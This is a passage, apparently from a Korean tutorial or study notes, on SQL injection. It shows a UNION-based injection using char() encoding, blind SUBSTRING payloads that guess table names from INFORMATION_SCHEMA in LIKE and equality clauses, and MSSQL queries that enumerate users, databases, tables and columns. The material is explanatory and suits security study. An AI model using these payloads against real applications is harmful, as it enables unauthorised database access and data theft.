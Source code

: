 ## 에러페이지

```
select top 10 id, name, created from Member where ClientComp_id=13
union
select '2000', '2000', '2000' where '%'='%'
union
select 
char(50)+char(48)+char(48)+char(48),
char(50)+char(48)+char(48)+char(48),
char(50)+char(48)+char(48)+char(48)
```

## 실제 예제

```
SELECT [컬럼들] 
FROM [테이블] 
WHERE 컬럼 LIKE '%[조건]%';

@' OR SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'bisketmonster' limit 1),3,1) = 'p' or '1'='%

SELECT [컬럼들]
FROM [테이블]
WHERE 컬럼 LIKE '%@' OR SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'bisketmonster' limit 1),3,1) = 'p' or '1'='%';

SELECT [컬럼들] 
FROM [테이블] 
WHERE 컬럼='[조건]';

'='' OR SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'bisketmonster' limit 1),3,1) = 'p' or '

SELECT [컬럼들]
FROM [테이블]
WHERE 컬럼 = '' OR SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'bisketmonster' limit 1),3,1) = 'p' or '';
```

* * *

## 주요 함수

SQL Inejction 기법을 살펴보기 앞서 몇가지 SQL함수를 보도록하자.

Mssql 기본 함수및 쿼리

```
--유저 조회
SELECT db_user();

--데이터베이스 조회
SELECT db_name();

--테이블 목록
SELECT name FROM dbo.sysobjects WHERE xtype = 'U';

--컬럼 목록
SELECT name FROM dbo.syscolumns WHERE id = OBJECT_ID('테이블명');

--컬럼 데이터 값
SELECT 1 WHERE 0 <> (SELECT TOP 1 CAST(컬럼명 AS VARCHAR(8000)) FROM 테이블)

```